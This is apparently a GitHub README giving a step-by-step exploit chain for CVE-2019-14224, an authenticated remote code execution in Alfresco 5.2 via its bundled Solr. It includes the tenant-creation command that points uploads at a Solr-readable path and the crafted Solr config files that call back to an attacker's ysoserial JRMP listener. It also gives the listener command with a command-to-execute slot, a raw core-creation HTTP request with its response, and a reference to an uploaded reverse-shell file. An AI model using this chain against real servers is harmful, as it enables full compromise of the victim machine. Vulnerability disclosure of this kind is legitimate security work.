

# CVE-2019-14224: Alfresco Authenticated Remote Code Execution

By leveraging multiple components in the Alfresco (version 5.2) and Solr (version 4.10.3, ships by default with this version of Alfresco) applications, a exploit chain was observed that allows attacker to obtain remote code execution under the user the Alfresco/Solr software is running as.
<br/>
Because no priviledge downgrade is made at runtime, if the software is started by a high privilege authority (Ex: "root" or "NT Authority\System"), then a successfull attack will offer the attacker complete control of the victim machine.
<br/>
This exploit was tested works on both Windows and Linux machines.

### Requirements:
For successful exploitation of the vulnerability, the attacker will require:
- Access to Alfresco Admin Console (Admin Credentials Required)
- Access to Alfresco WebDAV or Alfresco Share
- Access to Solr interface

### STEPS:

1. First step in the attack requires to access Solr and identify the path to a valid core. We are interested in this path because Solr has a “Directory and File Reading” feature which will allow us to bypass the pseudo-random UUIDv4 file naming convention used by Alfresco when a user uploads a file in the web application.


2. Knowing that the path "/opt/alfresco-community/solr4/workspace-SpacesStore/conf/" is listed by Solr, we use the Alfresco Admin Console to create a new tenant, (username : admin@hexor, password : hexor), which will write the uploaded files into the listed location.
<br/>
Command:

```
create hexor hexor /opt/alfresco-community/solr4/workspace-SpacesStore/conf

```


3. Next exploitation step is to upload the specially crafted Solr configuration files to the target machine. By logging in with the above created user (admin@hexor : hexor) to either the Alfresco Share or the Alfresco WebDAV, we can upload the files to a known location.


<strong>Example:</strong> Using Cadaver to upload files using WebDAV.


4. We use Solr's listing feature in order to find the name of the uploaded files.

<strong>Note:</strong> Two files are mandatory to be uploaded:

- [solrconfig.xml](Solr%20Conf%20Files/solrconfig.xml) = the configuration files used by Solr to configure a core. This file points back to our ysoserial  listener via a "jmx" reference. 
- [schema.xml](Solr%20Conf%20Files/schema.xml) = file required by Solr when creating a core.
- Optionally a third file can be uploaded containing a reverse shell file (Ex. bash, python, perl, elf, exe, etc.), which will later be used with ysoserial.

5. Start ysoserial server:

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 4444 ROME "<COMMAND_TO_EXECUTE>"
```

6. Create Solr Core:

- Request:

```
GET /solr4/admin/cores?wt=json&indexInfo=false&action=CREATE&name=hexor_core&instanceDir=/&dataDir=/&config=/opt/alfresco-community/solr4/workspace-SpacesStore/conf/2019/5/15/9/11/30cc3b35-c48e-47a3-b615-be37d8161ac1.bin&schema=/opt/alfresco-community/solr4/workspace-SpacesStore/conf/2019/5/15/9/11/10222c0c-4d2d-4597-8d40-47e2081a2eb1.bin&collection=&shard=&_=1557914582265 HTTP/1.1
Host: <TARGET_IP>:8443
X-Requested-With: XMLHttpRequest
```

- Response:

```
HTTP/1.1 400 Bad Request
Server: Apache-Coyote/1.1
Content-Type: application/json;charset=UTF-8
Date: Wed, 15 May 2019 16:15:38 GMT
Connection: close
Content-Length: 165

{"responseHeader":{"status":400,"QTime":189},"error":{"msg":"Error CREATEing SolrCore 'hexor_core': Unable to create core [hexor_core] Caused by: null","code":400}}
```



##### Side Note:
- "/opt/alfresco-community/solr4/workspace-SpacesStore/conf/2019/5/15/9/11/30cc3b35-c48e-47a3-b615-be37d8161ac1.bin" is the absolute path to the malicious "solrconfig.xml" file
- "/opt/alfresco-community/solr4/workspace-SpacesStore/conf/2019/5/15/9/11/10222c0c-4d2d-4597-8d40-47e2081a2eb1.bin" is the absolute path to the malicious "schema.xml" file
- "/opt/alfresco-community/solr4/workspace-SpacesStore/conf/2019/5/15/9/11/e9ceebf5-8aa4-466d-9402-d543a9f52946.bin" is the absolute path to the malicious python reverse shell file
